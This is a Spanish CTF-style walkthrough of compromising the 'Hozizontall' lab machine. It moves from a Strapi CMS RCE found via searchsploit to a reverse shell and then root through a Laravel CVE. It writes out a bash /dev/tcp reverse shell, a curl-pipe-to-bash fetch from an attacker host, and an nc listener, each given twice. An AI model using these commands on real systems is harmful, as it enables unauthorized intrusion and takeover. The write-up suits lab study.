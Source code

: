 ```yaml
---
title: "Hozizontall"
description: "Hozizontall"
pubDate: 2025-05-20
---
```


# Fase de reconocimiento

80

## Enumeración

Enocntramos un JS en la web que redirige a una API

# Fase de ataque

La API contiene un panel de administacion CMS Strapi
Buscamos posibles vulnerabilidades

````
searchesploit strapi
````

Hay un exploit de RCE
Traemos el exploit para ejecutarlo

````
searchesploit -m <ruta vista>
````

Ejecutamos

````
python3 <exploit.py> http://<webstrapi>
````

Conseguimos ejeucion remota pero bind

## Conseguir Reverse shell

1. Creamos un archivo.html con la shell

````
#!/bin/bash

bash -i >& /dev/tcp/<ipa>/443 0>&1
````

2. Creamos una web para alojar el archivo

````
python3 -m http.server 80
````

3. Nos ponemos en escucha

````
nc -nlvp 443
````

4. En el RCE eejuctamos el archivo

````
curl http://<ipa>/<archivo> | bash
````

\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

# Privilege Escalation

Encontramos una web CMS interna Lavarel

````
netstat -nat
````

Lo traemos a nuestra maquina local con PortForwading
Encontramos un CVE y utilizamos el exploit para ganar acceso como root

1. Creamos un archivo.html con la shell

````
#!/bin/bash

bash -i >& /dev/tcp/<ipa>/443 0>&1
````

2. Creamos una web para alojar el archivo

````
python3 -m http.server 80
````

3. Nos ponemos en escucha

````
nc -nlvp 443
````

4. En el RCE eejuctamos el archivo

````
curl http://<ipa>/<archivo> | bash
````

\[+\] ==pwned!==
